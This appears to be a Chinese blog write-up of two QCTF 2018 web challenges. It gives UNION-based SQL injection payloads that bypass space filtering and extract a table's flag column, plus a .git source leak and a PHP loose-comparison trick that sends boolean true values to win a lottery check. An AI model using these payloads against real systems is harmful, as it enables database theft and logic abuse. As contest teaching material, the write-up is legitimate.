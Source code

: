 ```yaml
---
title: QCTF-2018-Web-Wp
date: 2018-07-16 16:33:51
tags: web
layout: post
---
```

QCTF-2018-Web-Wp
<!--more-->
* 主要方向不是web所以只记录自己做过的题目

## NewsCenter
从33066感觉应该是出题人给的提示让我们往sqli方向去
然后开始注入发现盲注benchmark有点感觉后来试了试联合查询发现很简便
```
先猜字段数======>3
然后找表名======>
h'union/**/select/**/1,2,table_name/**/from/**/information_schema.tables#
得到表名：secret_table
列名======>
h'union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name="secret_table"#
//id,fl4g
flag:
h'union/**/select/**/1,2,group_concat(fl4g)/**/from/**/secret_table#
```

## Lottery
买彩票...
扫了一遍目录发现robots里面有.git
于是源码泄露一波
了解了大致的过程后
陷入的本地爆破随机数的深坑
最后回到验证函数发现只要输入是true那么无条件true
```
function buy(){
	$win_numbers="asdasda";
	$same_count=0;
	for($i=0; $i<7; $i++){
		if(true == $win_numbers[$i]){
			$same_count++;
		}
	}
	echo $same_count;
}
buy();
?>
```
所以修改buy.js
```
data: JSON.stringify({ action: "buy", numbers: [true,true,true,true,true,true,true] })
```
等咱有钱了就买flag....